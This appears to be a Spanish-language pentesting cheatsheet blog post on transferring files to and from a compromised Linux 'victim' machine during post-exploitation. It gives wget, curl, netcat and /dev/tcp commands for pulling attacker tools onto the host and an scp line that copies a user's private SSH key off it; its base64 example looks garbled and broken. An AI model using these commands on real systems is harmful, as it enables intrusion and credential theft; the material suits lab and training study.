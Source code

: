 ```yaml
---
title: "Transferir Archivos (Linux)"
date: 2024-10-20 00:00:00 +0800
categories: cheatsheets
tags: privesc
description: Formas de transferirnos los archivos a nuestra máquina atacante a través de la máquina víctima y viceversa en Linux.
---
```


## Definición

> Cuando hemos ganado acceso a la máquina víctima es posible que llegue el momento en cual debemos transferirnos archivos a la máquina víctima para aplicar un mayor reconocimiento dentro de esta y así poder aplicar Técnicas de escala de privilegios (Linux), para que dicho proceso de Transferencia sea más sencillo he creado el siguiente recurso el cual recoge los principales métodos de transferencia para máquina Linux.
> 
> *Accediendo al siguiente recurso podemos encontrar de manera más detallada dichas Transferencias de archivos <a href="https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/" target="_blank">IronHackers</a>*.

___
## Tipos

> *Cuando no se especifique el caso del **Atacante** será porque se puede hacer con un simple servidor **HTTP**, ya sea con **python**, **php** o de cualquier otra forma.*

### Wget
#### Víctima

```bash
wget http://<direcciónIP>/<recurso>
```

___
### Curl
#### Víctima

> Estaremos añadiendo el parámetro `-O` para cuando queremos mantener el nombre del archivo, y añadiremos una `-o` para cuando queramos cambiarle el nombre

```bash
curl http://<direcciónIP>/<recurso> -O
curl http://<direcciónIP>/<recurso> -o <nombrepersonalizado>
```

___
### SCP

> *Para este caso debemos de tener acceso a la máquina a través del servicio **SSH**.*

#### Atacante

```bash
scp /home/terror/Descargas/socat juan@172.17.0.2:/tmp
```

> *En el caso particular que queremos descargarnos a nuestra máquina de atacante un archivo de la máquina víctima usando SCP podemos hacer:*

```bash
scp juan@172.17.0.2:/home/juan/.ssh/id_rsa
```

____
### /dev/tcp
#### Atacante

```bash
nc -nlvp 443 < pspy
```

#### Víctima

```bash
cat < /dev/tcp/192.168.18.10/443 > pspy
```

![Pasted image 20240826192540.png](<../assets/images/posts/2024-10-20-transferirarchivos/Pasted image 20240826192540.png>)

___
### base64
#### Víctima

```bash
echo -n "QmVuIHNpc3RlbWEgZGUgbnVtZXJhY2nzbiBwbpY2lvbmFsIHF1ZSB1c2ENjQgY2tbyBiYXNLiYXlvciBwb3RlbmNpYSBxdWUgcHVlZGUgc2VyIHJlcHJlc2VudGFkYSB1c2FuZG8g+m5pY2Ft"; echo | base64 -d
```

___
### NetCat
#### Atacante

```bash
nc 172.17.0.2 443 < /home/terror/Descargas/socat
```
#### Víctima

```bash
nc -nvlp 443 > socat
```

___
## Comprobar integridad con md5sum

> Gracias al comando `md5sum` podemos comprobar la integridad de los archivos transferidos y saber si se han corrompido durante dicha Transferencia.

```bash
md5sum <nombrearchivo>
```


![Pasted image 20240826192602.png](<../assets/images/posts/2024-10-20-transferirarchivos/Pasted image 20240826192602.png>)